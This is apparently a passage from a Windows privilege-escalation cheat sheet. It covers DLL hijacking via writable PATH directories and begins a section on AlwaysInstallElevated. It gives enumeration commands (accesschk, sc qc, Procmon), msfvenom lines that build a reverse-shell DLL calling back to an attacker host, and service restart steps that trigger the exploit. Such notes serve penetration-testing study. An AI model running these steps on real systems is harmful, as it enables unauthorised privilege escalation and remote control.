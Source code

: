 #### Tip
- Use ```net helpmsg``` to resolve Windows error codes.
```
net helpmsg 32
```

### DLL Hijacking
Often a service will try to load functionality from a library called a DLL (dynamic-link library). Whatever functionality the DLL provides, will be executed with the same privileges as the service that loaded it. If a DLL is loaded with an absolute path, it might be possible to escalate privileges if that DLL is writable by our user.

A more common misconfiguration that can be used to escalate privileges is if a DLL is missing from the system, and our user has write access to a directory within the PATH that Windows searches for DLLs in. Unfortunately, initial detection of vulnerable services is difficult, and often the entire process is very manual 

#### Check for a writable directory that is in path
Start by enumerating which of these services our user has stop and start access to:
```
.\accesschk.exe /accepteula -uvqc <USER> <SERVICE>
```

#### Confirm output of winpeas if DLL is vulnerable
```
sc qc <SERVICE>
```

1. Run Procmon64.exe with administrator privileges. Press Ctrl+L to open the Filter menu.
2. Add a new filter on the Process Name matching NAME.exe.
3. On the main screen, deselect registry activity and network activity.
4. Start the service:
5. Back in Procmon, note that a number of “NAME NOT FOUND” errors appear, associated with the .dll file.
6. At some point, Windows tries to find the file in the C:\Temp directory, which as we found earlier, is writable by our user.

#### On Kali, generate a reverse shell DLL named hijackme.dll:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f dll -o <NAME>.dll
msfvenom -p windows/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f dll -o <NAME>.dll
```

#### Copy the DLL to the Windows VM and into the C:\Temp directory. Start a listener on Kali and then stop/start the service to trigger the exploit:
```
net stop <SERVICE>
net start <SERVICE>
```
 
### Always Install Elevated
 - This policy allows standard users to install applications that require access to directories and registry keys that they may not usually have permission to change. This is equivalent to granting full administrative rights and even though Microsoft strongly discourages its use, it can still be found.
